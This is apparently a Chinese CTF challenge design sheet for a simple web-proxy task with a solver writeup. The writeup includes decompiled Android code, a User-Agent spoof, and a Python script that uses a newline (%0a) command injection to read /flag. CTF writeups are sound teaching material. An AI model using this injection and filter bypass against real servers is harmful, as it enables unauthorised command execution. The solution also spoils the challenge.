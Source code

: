 # 赛题设计说明

## 题目信息：

* 题目名称：proxy
* 预估难度：简单 （简单/中等偏易/中等偏难/困难）


## 题目描述：
```
一个简陋的web代理应用，目前只支持GET呦~
```

## 题目考点：
```
- Android的webview控件特性
- 命令注入
```

## 思路简述：

后端api通过UA鉴别了是否为android控件发起的请求，绕过后可通过命令注入getshell

## 题目提示：
1. UA
2. 命令注入
3. 换行


## 原始 flag 及更新命令：

```shell
    # 原始 flag
    flag{flag_test}
    # ..
    # 更新 flag 命令
    echo 'flag{85c2a01a-55f7-442a-8712-3f6908e1463a}' > /flag
```


## 题目环境：
```
1. ubuntu 14.04 LTS（更新到最新）
2. Apache/2.4.7 (Ubuntu)
3. PHP 5.5.9-1ubuntu4.25
```

## 题目制作过程：
1. 设计好漏洞，编写服务端相关代码
2. 设计好APP，写好与WEB API后端的通信端口，视情况选择加密是否进行通讯加密。
3. 按照“Docker示例文档.md”来编写Dockerfile，制作好web服务端镜像。

## 题目writeup：

通过jeb得到apk的反编译java代码

```java
 protected void onCreate(Bundle arg6) {
        super.onCreate(arg6);
        this.setContentView(2131296284);
        View v6 = this.findViewById(2131165331);
        View v0 = this.findViewById(2131165218);
        View v1 = this.findViewById(2131165238);
        View v2 = this.findViewById(2131165239);
        StringBuilder v3 = new StringBuilder();
        v3.append("http://");
        v3.append(((EditText)v2).getText().toString());
        v3.append("/api.php?ip=");
        v3.toString();
        ((Button)v0).setOnClickListener(new View$OnClickListener(((EditText)v2), ((EditText)v1), ((WebView)v6)) {
            public void onClick(View arg4) {
                String v4_1 = "http://" + this.val$e2.getText().toString() + "/api.php?ip=";
                String v0 = this.val$e1.getText().toString();
                WebView v1 = this.val$web1;
                v1.loadUrl(v4_1 + v0);
            }
        });
    }
```

并且通过软件界面可以得知，这是一个代理应用，先通过第一个输入框设置代理服务器，然后设置要访问的页面，按下Go按钮即可访问。

这里测试代理服务器为127.0.0.1:8080，尝试去直接访问http://127.0.0.1:8080/api.php?ip=ipinfo.io失败，但是通过android的webview可以访问成功，猜测为user-agent的限制，查到android的webview的常用user-agent有以下：

Mozilla/5.0 (Linux; U; Android 3.0; en-us; Xoom Build/HRI39) AppleWebKit/534.13 (KHTML, like Gecko) Version/4.0 Safari/534.13

尝试设置ua访问成功：

```
import requests
url = 'http://127.0.0.1:8080/api.php?ip=ipinfo.io'
headers = {'User-Agent': 'Linux; Android 4.4.2;'}
r = requests.get(url, headers=headers)
print r.text
```

通过ip参数可以访问到其指向的页面，有很多种可能的实现方式，尝试命令注入，发现`&;|-$()||`都失败了，最终尝试换行符成功：

```python
import requests
url = 'http://127.0.0.1:8080/api.php?ip=ipinfo.io%0acat%20/flag'
headers = {'User-Agent': 'Linux; Android 4.4.2;'}
r = requests.get(url, headers=headers)
print r.text
'''
{
  "ip": "112.102.162.119",
  "city": "Haerbin",
  "region": "Heilongjiang",
  "country": "CN",
  "loc": "45.7500,126.6500",
  "org": "AS4134 CHINANET-BACKBONE"
}flag{flag_test}<pre>}flag{flag_test}</pre>
[Finished in 1.8s]
'''

```


## 注意事项

1. 题目名称不要有特殊符号，可用下划线代替空格；
2. 根据设计的赛题，自行完善所有文件夹中的信息；
3. 此文件夹下信息未完善的队伍，将扣除一定得分。